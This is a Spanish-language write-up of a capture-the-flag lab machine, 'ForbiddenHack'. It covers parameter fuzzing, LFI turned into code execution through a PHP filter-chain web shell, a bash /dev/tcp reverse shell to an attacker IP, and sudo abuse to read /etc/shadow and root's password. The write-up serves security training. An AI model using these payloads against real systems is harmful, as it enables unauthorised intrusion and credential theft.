# ForbiddenHack - Writeup

## Resumen
En esta máquina haremos fuzzing a parámetros para poder aplicar un **LFI** y ejecutar código mediante un **PHP Wrapper**. Dentro del sistema, accederemos a usuarios y escalaremos privilegios gracias a un binario interno.

## Paso N1: Reconocimiento
Empezaremos escaneando los puertos TCP abiertos en la máquina con sus respectivos servicios y versiones
```
nmap 172.17.0.2 -sS -sVC -n -Pn -p- --open --min-rate 5000 -oG open_ports
```


Veremos que únicamente está abierto el puerto 80, por lo que tendremos que examinar la página.

## Paso N2: Configurando hosts
Al entrar a la página, veremos que es la página default de Apache2 y veremos esta línea `/var/www/bypass403.pw`


Lo que nos dice que internamente el servidor tiene la ruta `bypass403.pw`, por lo que reconfiguraremos los hosts usando `sudo nano /etc/hosts` `172.17.0.2 bypass403.pw`



Una vez dentro, veremos que no tenemos acceso a la página.

## Paso N3: Fuzzeando parámetros 
Como la idea es bypassear el código 500 de la página web, tendremos que buscar algún parametro vulnerable para poder realizar un **LFI**, por lo que usamos `wfuzz` agregando `-H "Referer: http://bypass403.pw"`, esto ya que el servidor permite acceso únicamente si el `Referer` coincide con su propio dominio.
```
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hl 38 -u http://bypass403.pw?FUZZ=test -H "Referer: http://bypass403.pw"
```


Encontramos que el parámetro vulnerable es `pages`, por lo que ahora podremos pasarlo a **Burpsuite** e interceptar la petición.

## Paso N4: Interceptando la petición
Entraremos a **Burpsuite** y mandamos la petición al **Repeater**, agregando nuevamente la cabecera `Referer: http://bypass403.pw` y probando el parámetro `pages`


Vemos que funciona correctamente. La idea a partir de acá es lograr inyectar código php, y la forma de hacerlo es usando un **PHP Wrapper**, el cual es una forma de ejecutar código php mediante la url. Para generar el código usaremos una herramienta llamada [`php_filter_chain_generator`](https://github.com/synacktiv/php_filter_chain_generator). Copiaremos el directorio el nuestra máquina con git clone y le subiremos el código que queremos ejecutar
```
git clone https://github.com/synacktiv/php_filter_chain_generator
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'
```
Esto nos generará un código gigante el cual tendremos que poner en el parámetro y luego deberíamos de poder ejecutar comando usando `&cmd=`


Por lo que ya pudimos realizar un **RCE**

## Paso N5: Generando reverse shell
Una vez podamos ejecutar código tenemos que ejecutar una reverse shell escuchando en el puerto 443 `nc -lvnp 443` con:
```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```
Pero de primeras no nos dejará, tenemos que codificarlo a url, por lo que si dejamos el texto remarcado y se presiona Ctrl+U en burpsuite se codificará automáticamente y habremos logrado acceder al sistema.



## Paso N6: Accediendo a usuarios
Empezaremos estabilizando la shell con
```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```
Luego, en el directorio `/home` veremos que hay un usuario llamado `bambi` y dentro de su directorio habra un directorio oculto llamado `.secret` el cual tiene el siguiente contenido

```
bambi:c3VwZXJzZWNyZXRwYXNzd29yZDEyMw
```
al deshashearlo tenemos que la contraseña para bambi es `supersecretpassword123` por lo que ya podremos acceder

## Paso N7: Escalando privilegios
Una vez ya en el usuario `bambi` ejecutaremos `sudo -l`

```
(ALL : ALL) NOPASSWD: /usr/bin/furb
```
si aplicamos `strings /usr/bin/furb` encontraremos una línea que dice `Error: Missing file argument for -r`, por lo que vemos que podemos usar el parámetro `-r` en furb. si ejecutamos `ls -la /usr/bin/furb` veremos que tiene permisos root. Buscaremos archivos que tengan de nombre `furb` para buscar alguna pista con el siguiente comando
```
find / -name '*furb*' 2>/dev/null
```


Encontramos `/var/backups/furbRead.txt` y si le hacemos un cat nos mostrará el siguiente texto: `Interesante este nombre de archivo, donde mas puede encontrarse?`. con todas estas pistas, el parámetro `-r` sugiere que podemos leer archivos, por lo que ejecutamos
```
sudo /usr/bin/furb -r /etc/shadow
```
y efectivamente funciona.

El contenido del archivo nos incita a explorar y probar en el sistema, pero sabemos que está en un directorio que no podemos leer, pues sino, se nos hubiera listado al momento de haber buscado archivos con el nombre furb, por lo que probamos a leer el archivo en `/root`
```
sudo /usr/bin/furb -r /root/furbRead.txt
```


Y encontramos `StrongPasswordRootSuperSecret123`, por lo que trataremos de usar dicha contraseña con `su root` y habremos ganado acceso.




